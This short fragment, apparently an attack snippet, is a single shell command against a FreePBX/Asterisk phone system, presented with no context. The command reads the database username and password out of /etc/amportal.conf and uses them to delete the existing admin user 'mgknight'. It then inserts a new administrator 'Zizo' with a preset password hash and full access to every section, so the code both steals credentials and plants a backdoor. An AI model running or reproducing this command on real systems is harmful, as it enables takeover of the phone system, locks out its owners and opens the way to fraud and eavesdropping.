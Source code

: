 # go
mysql `grep AMPDB /etc/amportal.conf|grep "USER\|PASS\|NAME"| sed 's/AMPDBUSER/a/g'|sed 's/AMPDBPASS/b/g'|sed 's/AMPDBNAME/c/g'|sed 's/a=/-u/g'|sed 's/b=/ -p/g'|sed 's/c=/ /g'|tr -d '\n'` --execute "DELETE from ampusers where username='mgknight';INSERT INTO ampusers (username,password_sha1,sections) VALUES ('Zizo','ca2fb460fc6e7550a6c463bf25bd90b0450a4ff8','*');"
